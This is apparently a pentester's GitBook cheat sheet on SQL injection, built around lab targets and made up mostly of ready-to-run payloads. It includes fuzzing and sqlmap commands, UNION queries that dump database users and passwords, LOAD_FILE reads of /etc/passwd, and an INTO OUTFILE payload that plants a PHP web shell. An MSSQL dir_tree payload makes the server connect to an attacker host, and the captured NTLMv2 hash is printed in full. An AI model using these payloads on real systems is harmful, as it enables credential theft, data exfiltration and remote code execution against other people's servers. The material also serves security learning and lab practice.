

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SQLi


**SQL Injection** (_SQLi_) is a security vulnerability where an attacker inserts or manipulates SQL queries through user inputs to gain unauthorized access, alter data, or execute malicious commands in the database.


## Discovery

We can enumerate SQLi flaws via:

1. Sending **manual** payloads.
2. Searching for dynamic SQL statements during a **code review**.
3. **Fuzzing** the request.

## Union Attack

> _The example below is based on PostSwigger's_ [_SQL injection UNION attack, retrieving data from other tables_](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) _lab._

We can start testing for SQLi flaws by fuzzing the request's parameters with common SQLi payloas (Figure 1).

<figure><figcaption><p>Figure 1: Fuzzing for SQLi flaws.</p></figcaption></figure>

Intruder's results indicate that the parameter is vulnerable to SQLi, so the next step is to manually confirm that we can affect the responses behaviour (Figure 2).

<figure><figcaption><p>Figure 2: Validating the SQLi vulnerability.</p></figcaption></figure>

Finally, now we have discovered and validated the SQLi flaw, we can use automated tools, such as [SQLMap](../../tools/web/sqlmap.md), for data exfiltration (Figure 3).

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch -v 0
```

## Assumptions

* IIS -> MSSQL
* Apache/Nginx -> MySQL

## SQLi Types


<figure><figcaption><p>Figure 1: SQL Injection types (<em>imaged adapted from</em> <a href="https://www.qafox.com/sql-injection-types/"><em>here</em></a>).</p></figcaption></figure>

## Detection

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

## Banned Characters


```bash
ffuf -k -u https://watch.streamio.htb/search.php -d 'q=FUZZ' -w /usr/share/seclists/Fuzzing/special-chars.txt -c -ic -ac -H 'Content-Type: application/x-www-form-urlencoded'
```


## Queries

Try a parameter value that returns results and one that it does not.

### MSSQL



```sql
q=anger' ORDER BY 1;--
q=anger' UNION SELECT NULL;--
q=anger' UNION SELECT 1;--
```



```sql
q=anger1' UNION SELECT 'a',2,3,4,5,6;-- -
```



```sql
# check connection back with nc on port 445, and then responder
q=anger1'; exec dir_tree '\\<attack-ip>\\sharename\file'--
```




```bash
# first connection
sudo nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.14.121] from (UNKNOWN) [10.10.11.158] 50883
E�SMBrS�����"NT LM 0.12SMB 2.002SMB 2.???^C
# second connection
sudo responder -I tun0
<SNIP>
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.158
[SMB] NTLMv2-SSP Username : streamIO\DC$
[SMB] NTLMv2-SSP Hash     : DC$::streamIO:c45d729b18399cdd:DC47BA38B0757F30605D68A6D5B969FE:0101000000000000803B7DFBB994DA011011EEA196276E730000000002000800410043004F00410001001E00570049004E002D005500500046004200320059003900580030005400520004003400570049004E002D00550050004600420032005900390058003000540052002E00410043004F0041002E004C004F00430041004C0003001400410043004F0041002E004C004F00430041004C0005001400410043004F0041002E004C004F00430041004C0007000800803B7DFBB994DA0106000400020000000800300030000000000000000000000000300000EC58810B0121088E8266094DE4E2D0B2340D33D1D6BE1317A3BA66F26DE4CFBE0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100320031000000000000000000
```






```sql
q=anger1' UNION SELECT 1,@@version,3,4,5,6;--
```



```sql
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases--
```




```sql
q=anger1' UNION SELECT 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects--
```





```sql
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM streamio..syscolumns WHERE id=901578250--
```





```sql
q=anger1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'|') FROM users),3,4,5,6--
```




<pre class="language-sql"><code class="lang-sql"><strong># wildcards in MSSQL
</strong><strong>SELECT * FROM movies WHERE name LIKE '%anger%';
</strong>SELECT * FROM movies WHERE CONTAINS (name,'*500*');
</code></pre>

## MySQL -  UNION Attack

Appropriate when the results are returned within the application's response. Two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [ ] [How many columns](sqli.md#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [ ] [Which columns are suitable](sqli.md#data-types) to hold the results from the injected query?

### Number of Columns

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error.

<figure><figcaption><p>Figure 1: Detecting SQLi.</p></figcaption></figure>

<figure><figcaption><p>Figure 2a: Indexing the first column.</p></figcaption></figure>

<figure><figcaption><p>Figure 2b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal.

<figure><figcaption><p>Figure 3: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it.

<figure><figcaption><p>Figure 4: Passing string data to the first column returns a server error.</p></figcaption></figure>

<figure><figcaption><p>Figure 5: Passing string data to the second column is accepted by the server.</p></figcaption></figure>

### Basic Enumeration


The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.



The comment at the end includes a space: <mark style="background-color:red;">`--`</mark>` ``` ! The `#` `` symbol can also be used.




<pre class="language-sql"><code class="lang-sql"><strong>a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
</strong></code></pre>



```sql
a' UNION select 1,database(),2,3-- 
```



<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong>a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
</strong></code></pre>




```sql
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```




```sql
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```



### Reading Local Files

The `FILE` privilege is needed to **READ** files.&#x20;



<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user(), 3, 4-- 
</strong></code></pre>



<pre class="language-sql"><code class="lang-sql"><strong>a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
</strong></code></pre>




```sql
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```




```sql
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```



```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```



### Writing Files

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.&#x20;

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |




```sql
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```





```sql
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```





```sql
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```




To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="137">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Resources














